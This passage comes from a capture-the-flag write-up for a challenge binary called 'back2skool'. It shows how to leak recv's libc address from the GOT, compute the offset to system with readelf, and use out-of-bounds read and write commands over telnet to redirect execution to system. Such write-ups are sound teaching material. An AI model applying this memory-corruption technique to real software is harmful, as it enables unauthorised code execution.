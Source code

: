 Hmm, nothing useful, nothing to execute, nothing to modify the mappings. But
hey, if you have access to those functions from libc and because the loader
maps the libc to our address space then it means that we have access to other
functions from libc, the problem is that we don't know where they are. A wild
**idea appears**, if we knew where one of the function from libc is, we can
compute the rest of them by adding some offsets. There are two problems with
this idea: **how do we find the offset of a used function** and **how do we
compute the offset of an unused function**.

* finding the address of a used function is **simple**, we can use the GOT and
  read the value of the pointer which has been already filled in by the
  loader. Because of the lazy linking, we only have to be careful to choose a
  function which has been previously called. We will choose `recv` for this
  purpose.

		$ objdump -dS ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f  | grep -A2 recv@plt
		08048980 <recv@plt>:
		 8048980:	ff 25 c0 bf 04 08    	jmp    *0x804bfc0

**0x804bfc0** is the GOT entry for `recv` function.


* finding the relative offset of the function that we want to jump to (e.g.
  `system`) is **difficult**. This offset depends on the version of libc that
  is used on the target system. To make things simple, we will focus first on
  exploiting locally - meaning that we have access to our libc file. To
  compute the offset we only have to find the function entries in libc.

		$ readelf -s /lib/tls/i686/cmov/libc.so.6 | grep ' recv@'
		  1124: 000cebf0   118 FUNC    WEAK   DEFAULT   12 recv@@GLIBC_2.0
		$ readelf -s /lib/tls/i686/cmov/libc.so.6 | grep ' system@'
		  1398: 00039100   125 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
		$ echo $((0x00039100-0x000cebf0))
		-613104

The offset is -613104, **note** that it depends on the version of libc, hence
the exploit isn't too reliable. Let's focus though on exploiting locally and
postpone the computation of the remote offset. We will write at the same
address as in PoC1 but we will write the value of `system` function i.e.
`address_of_recv_function+OFFSET`.

	$ telnet localhost 31337
	read
	Input position to read from:
	-32
	Value at position -32: -1217696784
	write
	Input position to write to:
	-2147483634
	Input numeric value to write:
	-1218309888
	Value at position -2147483634: -1218309888
	math
	Result of math: -1

